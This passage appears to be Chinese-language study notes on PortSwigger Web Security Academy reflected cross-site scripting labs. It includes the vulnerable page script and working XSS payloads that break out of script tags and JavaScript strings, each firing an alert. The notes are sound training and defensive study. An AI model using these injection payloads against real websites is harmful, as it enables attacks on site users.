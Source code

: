 這題卡了約 15 分鐘，我一開始看 F12 > Element 是


```html
<link rel="canonical" href="https://0acf009b036572748111259b000f00d9.web-security-academy.net/"/>
```

所以我以為要注入雙引號，瘋狂嘗試很久都無解，後來看了 F12 > Network > Doc 觀察 Response Body 才發現原來是要注入單引號！算是學到一個新知識，不能只相信 F12 > Element，因為那是 瀏覽器 parsing DOM 之後的結果

## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#terminating-the-existing-script                      |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped |

這題應該是 [Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded](#lab-reflected-xss-into-a-javascript-string-with-angle-brackets-html-encoded) 的進階版

先觀察網站的 js


```js
var searchTerms = '123';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

payload


```html
</script><img src=1 onerror=alert(document.domain)>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

| Dimension | Description                                                                                                                                         |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string                                              |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped |

[breaking-out-of-a-javascript-string](https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string) 有給提示

payload


```
\';alert(1);//
```

